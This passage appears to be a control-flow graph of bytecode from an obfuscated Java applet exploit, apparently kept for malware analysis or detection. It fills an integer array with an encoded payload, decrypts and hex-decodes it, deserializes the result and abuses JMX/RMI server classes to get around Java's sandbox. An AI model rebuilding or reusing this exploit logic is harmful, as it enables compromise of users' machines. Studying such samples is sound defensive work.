    "load.r $r11"->"push 182";
    "push 182"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 183"
    "load.r $r11"->"push 183";
    "push 183"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 184"
    "load.r $r11"->"push 184";
    "push 184"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 185"
    "load.r $r11"->"push 185";
    "push 185"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 186"
    "load.r $r11"->"push 186";
    "push 186"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 187"
    "load.r $r11"->"push 187";
    "push 187"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 188"
    "load.r $r11"->"push 188";
    "push 188"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 189"
    "load.r $r11"->"push 189";
    "push 189"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 190"
    "load.r $r11"->"push 190";
    "push 190"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 191"
    "load.r $r11"->"push 191";
    "push 191"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 192"
    "load.r $r11"->"push 192";
    "push 192"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 193"
    "load.r $r11"->"push 193";
    "push 193"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 194"
    "load.r $r11"->"push 194";
    "push 194"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 195"
    "load.r $r11"->"push 195";
    "push 195"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 196"
    "load.r $r11"->"push 196";
    "push 196"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 197"
    "load.r $r11"->"push 197";
    "push 197"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 198"
    "load.r $r11"->"push 198";
    "push 198"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 199"
    "load.r $r11"->"push 199";
    "push 199"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 200"
    "load.r $r11"->"push 200";
    "push 200"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 201"
    "load.r $r11"->"push 201";
    "push 201"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 202"
    "load.r $r11"->"push 202";
    "push 202"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 203"
    "load.r $r11"->"push 203";
    "push 203"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 204"
    "load.r $r11"->"push 204";
    "push 204"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 205"
    "load.r $r11"->"push 205";
    "push 205"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 206"
    "load.r $r11"->"push 206";
    "push 206"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 207"
    "load.r $r11"->"push 207";
    "push 207"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 208"
    "load.r $r11"->"push 208";
    "push 208"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 209"
    "load.r $r11"->"push 209";
    "push 209"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 210"
    "load.r $r11"->"push 210";
    "push 210"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 211"
    "load.r $r11"->"push 211";
    "push 211"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 212"
    "load.r $r11"->"push 212";
    "push 212"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 213"
    "load.r $r11"->"push 213";
    "push 213"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 214"
    "load.r $r11"->"push 214";
    "push 214"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 215"
    "load.r $r11"->"push 215";
    "push 215"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 216"
    "load.r $r11"->"push 216";
    "push 216"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 217"
    "load.r $r11"->"push 217";
    "push 217"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 218"
    "load.r $r11"->"push 218";
    "push 218"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 219"
    "load.r $r11"->"push 219";
    "push 219"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 220"
    "load.r $r11"->"push 220";
    "push 220"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 221"
    "load.r $r11"->"push 221";
    "push 221"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 222"
    "load.r $r11"->"push 222";
    "push 222"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 223"
    "load.r $r11"->"push 223";
    "push 223"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 224"
    "load.r $r11"->"push 224";
    "push 224"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 225"
    "load.r $r11"->"push 225";
    "push 225"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 226"
    "load.r $r11"->"push 226";
    "push 226"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 227"
    "load.r $r11"->"push 227";
    "push 227"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 228"
    "load.r $r11"->"push 228";
    "push 228"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 229"
    "load.r $r11"->"push 229";
    "push 229"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 230"
    "load.r $r11"->"push 230";
    "push 230"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 231"
    "load.r $r11"->"push 231";
    "push 231"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 232"
    "load.r $r11"->"push 232";
    "push 232"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 233"
    "load.r $r11"->"push 233";
    "push 233"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 234"
    "load.r $r11"->"push 234";
    "push 234"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 235"
    "load.r $r11"->"push 235";
    "push 235"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 236"
    "load.r $r11"->"push 236";
    "push 236"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 237"
    "load.r $r11"->"push 237";
    "push 237"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 238"
    "load.r $r11"->"push 238";
    "push 238"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 239"
    "load.r $r11"->"push 239";
    "push 239"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 240"
    "load.r $r11"->"push 240";
    "push 240"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 241"
    "load.r $r11"->"push 241";
    "push 241"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 242"
    "load.r $r11"->"push 242";
    "push 242"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 243"
    "load.r $r11"->"push 243";
    "push 243"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 244"
    "load.r $r11"->"push 244";
    "push 244"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 245"
    "load.r $r11"->"push 245";
    "push 245"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 246"
    "load.r $r11"->"push 246";
    "push 246"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 247"
    "load.r $r11"->"push 247";
    "push 247"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 248"
    "load.r $r11"->"push 248";
    "push 248"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 249"
    "load.r $r11"->"push 249";
    "push 249"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 250"
    "load.r $r11"->"push 250";
    "push 250"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 251"
    "load.r $r11"->"push 251";
    "push 251"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 252"
    "load.r $r11"->"push 252";
    "push 252"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 253"
    "load.r $r11"->"push 253";
    "push 253"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 254"
    "load.r $r11"->"push 254";
    "push 254"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 255"
    "load.r $r11"->"push 255";
    "push 255"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 256"
    "load.r $r11"->"push 256";
    "push 256"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 257"
    "load.r $r11"->"push 257";
    "push 257"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 258"
    "load.r $r11"->"push 258";
    "push 258"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 259"
    "load.r $r11"->"push 259";
    "push 259"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 260"
    "load.r $r11"->"push 260";
    "push 260"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 261"
    "load.r $r11"->"push 261";
    "push 261"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 262"
    "load.r $r11"->"push 262";
    "push 262"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 263"
    "load.r $r11"->"push 263";
    "push 263"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 264"
    "load.r $r11"->"push 264";
    "push 264"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 265"
    "load.r $r11"->"push 265";
    "push 265"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 266"
    "load.r $r11"->"push 266";
    "push 266"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 267"
    "load.r $r11"->"push 267";
    "push 267"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 268"
    "load.r $r11"->"push 268";
    "push 268"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 269"
    "load.r $r11"->"push 269";
    "push 269"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 270"
    "load.r $r11"->"push 270";
    "push 270"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 271"
    "load.r $r11"->"push 271";
    "push 271"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 272"
    "load.r $r11"->"push 272";
    "push 272"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 273"
    "load.r $r11"->"push 273";
    "push 273"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 274"
    "load.r $r11"->"push 274";
    "push 274"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 275"
    "load.r $r11"->"push 275";
    "push 275"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 276"
    "load.r $r11"->"push 276";
    "push 276"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 277"
    "load.r $r11"->"push 277";
    "push 277"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 278"
    "load.r $r11"->"push 278";
    "push 278"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 279"
    "load.r $r11"->"push 279";
    "push 279"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 280"
    "load.r $r11"->"push 280";
    "push 280"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 281"
    "load.r $r11"->"push 281";
    "push 281"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 282"
    "load.r $r11"->"push 282";
    "push 282"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 283"
    "load.r $r11"->"push 283";
    "push 283"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 284"
    "load.r $r11"->"push 284";
    "push 284"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 285"
    "load.r $r11"->"push 285";
    "push 285"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 286"
    "load.r $r11"->"push 286";
    "push 286"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 287"
    "load.r $r11"->"push 287";
    "push 287"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 288"
    "load.r $r11"->"push 288";
    "push 288"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r11";
    "push 289"
    "load.r $r11"->"push 289";
    "push 289"->"push 19";
    "push 19"->"arraywrite.i";
    "new java.lang.String"
    "arraywrite.i"->"new java.lang.String";
    "new java.lang.String"->"load.r $r11";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r $r11"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r $r11";
    "store.r $r11"->"load.r $r11";
    "load.r $r11"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r r0";
    "goto return"
    "store.r r0"->"goto return";
    "return"
    "goto return"->"return";
    "push null"->"store.r r0";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r $r11";
    "new CusBen"
    "load.r $r11"->"new CusBen";
    "new CusBen"->"dup1.r";
    "specialinvoke <CusBen: void <init>()>"
    "dup1.r"->"specialinvoke <CusBen: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <CusBen: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r $r11";
    "push \"javasucks\""
    "load.r $r11"->"push \"javasucks\"";
    "push \"javasucks\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "push null"->"load.r r0";
    "load.r r0"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r $r11"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "staticinvoke <BlogRoner: java.lang.String decrypt(int[])>"
    "load.r $r11"->"staticinvoke <BlogRoner: java.lang.String decrypt(int[])>";
    "staticinvoke <BlogRoner: byte[] HexDecode(java.lang.String)>"
    "staticinvoke <BlogRoner: java.lang.String decrypt(int[])>"->"staticinvoke <BlogRoner: byte[] HexDecode(java.lang.String)>";
    "store.r r23"
    "staticinvoke <BlogRoner: byte[] HexDecode(java.lang.String)>"->"store.r r23";
    "load.r r23"
    "store.r r23"->"load.r r23";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "load.r r23"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "new java.io.ByteArrayInputStream"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"store.r $r11";
    "store.r $r11"->"load.r $r11";
    "load.r $r11"->"load.r r23";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r23"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r $r11";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r $r11"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r r0";
    "store.r r0"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
